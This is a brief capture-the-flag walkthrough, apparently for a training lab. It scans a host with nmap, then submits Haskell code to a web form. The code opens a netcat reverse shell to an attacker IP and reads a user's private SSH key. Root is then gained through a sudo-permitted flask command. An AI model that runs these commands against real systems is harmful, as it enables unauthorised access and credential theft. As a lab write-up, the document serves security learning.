 #nmap
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 1d:f3:53:f7:6d:5b:a1:d4:84:51:0d:dd:66:40:4d:90 (RSA)
|   256 26:7c:bd:33:8f:bf:09:ac:9e:e3:d3:0a:c3:34:bc:14 (ECDSA)
|_  256 d5:fb:55:a0:fd:e8:e1:ab:9e:46:af:b8:71:90:00:26 (ED25519)
5001/tcp open  http    Gunicorn 19.7.1
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET
|_http-server-header: gunicorn/19.7.1
|_http-title: Homepage
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
#enumeration
http://10.10.70.50:5001/submit
we could upload reverse shell in  hask code
My code:
```
import System.Process
main = do
    callCommand “rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.3.148 4222>/tmp/f”
```
To read a file:
```
#!/usr/bin/env runhaskell
import System.IO

main=do
    handle <-openFile "/home/prof/.ssh/id_rsa" ReadMode
    contents <- hGetContents handle
    putStr contents
    hClose handle
```
we login to prof with ssh
#privesc
sudo -l 
```flask```
set flask app env variable
```
export FLASK_APP=db_table.py
```
so create a python file with and then run flask
```
$ echo "python -c 'import pty; pty.spawn("/bin/bash")'" > root.py
$ export FLASK_APP=root.py
$ sudo /usr/bin/flask run 
```
to get root